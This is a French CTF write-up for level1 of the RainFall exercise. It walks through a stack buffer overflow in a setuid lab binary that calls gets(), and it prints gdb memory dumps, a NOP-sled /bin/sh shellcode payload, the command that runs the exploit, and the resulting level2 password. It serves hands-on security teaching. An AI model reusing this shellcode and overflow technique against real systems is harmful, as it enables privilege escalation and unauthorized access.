

# Level 1

<!-- ```
level0@RainFall:~$ su level1
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
``` -->



La connexion au level 2 nous informe que l'executable dans le repertoire permets l'execution de programmes sur la pile et que les adresses d'alocations de mémoires seront constante entre les essais.


```
level1@RainFall:~$ ls -la level1
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Les fonctions executées dans le programme le seront avec les droits du level2 (s).

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

Le programme demande une entrée utilisateur avec gets.
Ligne 6, une allocation de 80 octets (0x50) est demandée.

Comme la fonction gets ne fait aucunes vérifications de tailles de chaines de caracteres, nous concluons qu'une faille par buffer overflow est possible.

La technique utilisée est de d'inclure dans le buffer un shellcode qui ouvre un shell, et comme le programme execute avec les droits du level2, nous seront dans un shell avec l'id de celui-ci.

### Fonctionnement de la faille

  Avant l'appel d'une fonction, le pointeur de fonction mere est sauvegardé afin de retourner a celle-ci a la fin de la fonction fille. Ce pointeur est sauvegardé au dessus de la pile.
  Le but de l'exploit est d'écrire plus que le buffer alloué, afin d'écraser la valeur du pointeur de la fonction mère, et ici pointer vers le buffer, dans le but d'executer notre shellcode.

### Les étapes :
- Trouver l'adresse du buffer.
- tester des longueur de buffer dans gdb pour vérifier l'écrasement du pointeur de retour.
- Executer le binaire en redirigeant stdin pour pas que le programme termine.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) b *0x08048490
Breakpoint 1 at 0x8048490
(gdb) b *0x08048495
Breakpoint 2 at 0x8048495
(gdb) r
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048490 in main ()
(gdb) x/xw $esp
0xbffff6e0:	0xbffff6f0
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x080484a0	0x0804978c	0x00000001	0x08048321
0xbffff700:	0xb7fd13e4	0x00080000	0x0804978c	0x080484c1
0xbffff710:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff720:	0xb7fed280	0x00000000	0x080484a9	0xb7fd0ff4
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048495 in main ()
(gdb) x/20xw $esp
0xbffff6e0:	0xbffff6f0	0x0000002f	0xbffff73c	0xb7fd0ff4
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Le buffer commence a 0xbffff6f0 (0x41414141 = "AAAA").

Nous allons utiliser ce shellcode :
```
"\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf4\xf6\xff\xbf"
```
"\x90"*30  : NOP sled, instructions qui ne fait rien et passe a l'instruction suivante. cela permet de faire une sorte de rampe glissante vers le shellcode important, et d'augmenter la tolérence a l'emplacement de l'adresse de retour.

"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" : shellcode responsable de l'appel a /bin/sh

"A"*(75-30-23) : remplissage pour atteindre l'emplacement de l'adresse de retour de la fonction

"\xf0\xf6\xff\xbf" : adresse qui pointe vers le debut du buffer où les nop sled sont.


75 est déterniné par les essais d'alignements de l'adresse de retour.
30 est la taille des nop sled
23 est la taille du shellcode dash


```
(gdb) run <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/level1/level1 <<< $(python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"')

Breakpoint 1, 0x08048490 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048495 in main ()
(gdb) c
Continuing.
process 5290 is executing new program: /bin/dash
[Inferior 1 (process 5290) exited normally]
```

Il suffit désormais d'executer hors gdb et dans une commande qui laisse ouvert l'entrée standart pour pas que le programme termine.

```
level1@RainFall:~$ python -c 'print "\x90"*30 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(75-30-23) + "\xf0\xf6\xff\xbf"' > /tmp/payload
level1@RainFall:~$ cat /tmp/payload - | /home/user/level1/level1
id
uid=2030(level1) gid=2030(level1) euid=2021(level2) egid=100(users) groups=2021(level2),100(users),2030(level1)
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```